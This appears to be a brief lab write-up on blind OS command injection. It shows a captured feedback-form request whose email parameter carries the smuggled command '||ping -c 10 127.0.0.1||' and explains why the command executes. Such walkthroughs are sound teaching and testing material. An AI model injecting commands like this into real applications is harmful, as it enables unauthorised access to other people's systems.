 1. Capture the request POST /feedback/submit
2. Prepend the string "||ping -c 10 127.0.0.1||" before the value of email parameter in the body of the request. The body of request now looks like this:
```
name=test&email=||ping -c 10 127.0.0.1||test%40gmail.com&subject=test&message=test
```
3. || is the logical OR operator. The ```ping -c 10 127.0.0.1``` command will execute if its previous command fail, which is the case since the value of email is invalid.
